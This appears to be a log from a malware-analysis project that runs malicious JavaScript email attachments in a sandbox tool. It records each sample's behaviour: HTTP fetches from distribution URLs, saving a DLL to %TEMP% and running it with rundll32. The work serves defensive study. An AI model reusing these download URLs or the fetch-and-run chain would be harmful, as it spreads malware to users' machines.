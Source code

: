 **Command:**

    node jailme.js --down=y malware/20161028/ddf5e00b01f5841f9ef582e4a9122f549438039ee100088b244c0fa5402a0f5f.js

**Output:** [malware/20161028/ddf5e00b01f5841f9ef582e4a9122f549438039ee100088b244c0fa5402a0f5f.out](malware/20161028/ddf5e00b01f5841f9ef582e4a9122f549438039ee100088b244c0fa5402a0f5f.out)

## FAX_0032.js ##

    28 Oct 14:26:57 - MSXML2.XMLHTTP[10].open(GET,http://metawellness.in/7fg3g?RYbMpYc=FaGrznuDca,false)
    28 Oct 14:27:00 - ADODB_Stream[13].SaveToFile(%TEMP%/GAcKEeTBQDf1.dll, 2)
    28 Oct 14:27:00 - WScript.Shell[9].Run(rundll32  %TEMP%/GAcKEeTBQDf1.dll,EnhancedStoragePasswordConfig, 0, false)

**malwr.com:** https://malwr.com/analysis/OWNiMDU3NWUwNzE0NDZhZWE5MTZhZWE1ZTNhMTY0Nzk/

**Source code:** malware/20161028/353cfa4952a0199b538c6c389d15816430b422959e60b1becfb87463728eb550.js

**Command:**

    node jailme.js --down=y malware/20161028/353cfa4952a0199b538c6c389d15816430b422959e60b1becfb87463728eb550.js

**Output:** [malware/20161028/353cfa4952a0199b538c6c389d15816430b422959e60b1becfb87463728eb550.out](malware/20161028/353cfa4952a0199b538c6c389d15816430b422959e60b1becfb87463728eb550.out)

## FAX_05109.js ##

Pretends to be a game

    28 Oct 14:24:42 - Calling 'new Function(`return  nikeFootballAir23(kolli).split('=');`)'
    28 Oct 14:24:43 - MSXML2.XMLHTTP[10].open(GET,http://entelligy.com/7fg3g?AJehwHrbwF=cnBiNlHm,false)
    28 Oct 14:24:44 - ADODB_Stream[13].SaveToFile(%TEMP%/aSLuKKq1.dll, 2)
    28 Oct 14:24:44 - WScript.Shell[9].Run(rundll32  %TEMP%/aSLuKKq1.dll,EnhancedStoragePasswordConfig, 0, false)

**malwr.com:** https://malwr.com/analysis/Y2NmODkyNTM3OGI1NDNjMTlkZjI2MjUyY2NmYWNjMTI/

**Source code:** malware/20161028/b49b7768b6afada37e9084918e1151a314c29be1728988bcbbc676936f1e7948.js

**Command:**

    node jailme.js --down=y malware/20161028/b49b7768b6afada37e9084918e1151a314c29be1728988bcbbc676936f1e7948.js

**Output:** [malware/20161028/b49b7768b6afada37e9084918e1151a314c29be1728988bcbbc676936f1e7948.out](malware/20161028/b49b7768b6afada37e9084918e1151a314c29be1728988bcbbc676936f1e7948.out)

## SCAN_0519.js ##

A bit of strugle here as we don't have the HTTP redirect implemented yet.

    28 Oct 14:29:11 - Calling 'new Function(`return  nikeFootballAir23(kolli).split('=');`)'
    28 Oct 14:29:11 - MSXML2.XMLHTTP[10].open(GET,http://joomlaexpertdeveloper.com/7fg3g?ELRzLW=AYRflS,false)
    28 Oct 14:29:12 - MSXML2.XMLHTTP[10].responseBody = (object) '<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">?<html><head>?<title>301 Moved Permanently</title>?</head><body>?<h1>Moved Permanently</h1>?<p>The document has moved <a href="http://www.joomlaexpertdeveloper.com/7fg3g?ELRzLW=AYRflS">here</a>.</p>?< ... (truncated)'
    28 Oct 14:29:12 - MSXML2.XMLHTTP[10].open(GET,http://investps.com.au/7fg3g?ELRzLW=AYRflS,false)
    28 Oct 14:29:12 - MSXML2.XMLHTTP[10].responseBody = (object) '<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">?<html><head>?<title>301 Moved Permanently</title>?</head><body>?<h1>Moved Permanently</h1>?<p>The document has moved <a href="http://www.investps.com.au/7fg3g?ELRzLW=AYRflS">here</a>.</p>?</body></ht ... (truncated)'